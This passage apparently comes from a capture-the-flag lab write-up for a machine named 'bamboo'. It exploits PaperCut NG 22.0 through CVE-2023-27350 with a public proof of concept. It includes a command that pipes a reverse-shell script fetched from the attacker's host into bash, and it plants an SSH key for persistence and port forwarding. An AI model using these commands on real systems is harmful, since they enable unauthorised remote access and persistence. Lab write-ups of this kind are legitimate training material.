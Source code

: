 Nice. We got some better informations now.
PaperCut NG is active on port 9191. 

## PaperCut

accessing [http://127.0.0.1:9191](http://127.0.0.1:9191/) (through the same proxy ofc), we can see that it's using PaperCut NG version is 22.0.
searching for related CVEs, we find this PoC for CVE-2023-27350 on GitHub: [https://github.com/horizon3ai/CVE-2023-27350](https://github.com/horizon3ai/CVE-2023-27350)

This is pretty simple to use, the PoC is really good, so I've done it like this:
```bash
proxychains -q python3 CVE-2023-27350.py --url 'http://10.10.66.141:9191' --command 'curl 10.8.1.18/rev.sh|bash'

Then I received a shell:

(remote) papercut@bamboo:/home/papercut/server$ id
uid=1001(papercut) gid=1001(papercut) groups=1001(papercut)
```

Time to privesc.

## privesc

So first of all i will make a port forward & a persistence via SSH.

```bash
(remote) papercut@bamboo:/home/papercut$ mkdir .ssh
(remote) papercut@bamboo:/home/papercut$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAJl2IXTOqircRTrxdyhfbgv8Ddl5Thv6yz3SoiKSLf7 vaillant@sss" > .ssh/authorized_keys
```

Then now I can connect & port forward using my key:

```bash
vaillant@sss ~
❯ ssh -i .ssh/id_ed25519 -L 9191:127.0.0.1:9191 papercut@bamboo.vl                                                                      
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.19.0-1025-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr 22 18:24:31 UTC 2024

  System load:  0.0               Processes:             113
  Usage of /:   39.9% of 7.57GB   Users logged in:       0
  Memory usage: 53%               IPv4 address for ens5: 10.10.66.141
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

19 updates can be applied immediately.
13 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```